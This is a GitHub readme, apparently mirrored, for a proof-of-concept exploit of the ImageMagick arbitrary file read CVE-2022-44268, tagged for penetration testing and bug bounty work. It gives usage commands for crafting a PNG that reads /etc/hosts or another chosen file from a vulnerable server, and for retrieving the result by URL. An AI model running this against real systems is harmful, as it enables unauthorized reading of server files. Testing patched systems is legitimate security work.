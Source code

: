 # CVE-2022-44268

CVE-2022-44268 ImageMagick Arbitrary File Read - Proof of Concept exploit

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/kljunowsky](https://github.com/kljunowsky) |
| Url      | [https://github.com/kljunowsky/CVE-2022-44268](https://github.com/kljunowsky/CVE-2022-44268)                                               |
| Stars    | 8                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* applicati* bugbounty* bugbounty-tool* bugbountytips* cve-2022-44268* exploit* penetration-testing* penetration-testing-tools* proof-of-concept* security* web* webapplicationhacking

</details>

## Readme

# CVE-2022-44268 🧙‍♂️

CVE-2022-44268 ImageMagick Arbitrary File Read - Proof of Concept exploit

### Video 📼
https://youtu.be/quKxwNAMBIA


## Usage 🛠 

Poison the image ☣️
```
python3 CVE-2022-44268.py --image imagetopoison.png --file-to-read /etc/hosts --output poisoned.png
```
```
Upload poisoned PNG image.
```
Check if exploit was successful 🗡
```
python3 CVE-2022-44268.py --url http://vulnerable-imagemagick.com/uploads/vulnerable.png
```

## Running from Docker :whale:

Build
```
docker build -t cve-2022-44268 .
```

Run
```
docker run -v $(pwd)/data:/data -ti cve-2022-44268 --image /data/random.png --file-to-read "/etc/hosts" --output /data/poisoned.png
```

## Parameters 🧰 

Parameter | Description | Type
------------ | ------------- | -------------
--url | The URL of the uploaded PNG image | String
--image | Input PNG file | File
--output | Output PNG file | File
--file-to-read | File to read from vulnerable host | String


## Contact Me📇

[Twitter - Milan Jovic](https://twitter.com/milanshiftsec)

[LinkedIn - Milan Jovic](https://www.linkedin.com/in/milan-jovic-sec/)

[ShiftSecurityConsulting](https://shiftsecurityconsulting.com)

#### Educational purposes only and cannot be used for law violation or personal gain.
#### The author of this project is not responsible for any possible harm caused by the materials of this project.
#### More details: https://www.metabaseq.com/imagemagick-zero-days/



## Get the content

```
git clone https://github.com/kljunowsky/CVE-2022-44268
cd CVE-2022-44268
```

{% embed url="https://github.com/kljunowsky/CVE-2022-44268" %}

<figure><img src="https://avatars.githubusercontent.com/u/104329412?v=4" alt=""><figcaption><p>kljunowsky</p></figcaption></figure>
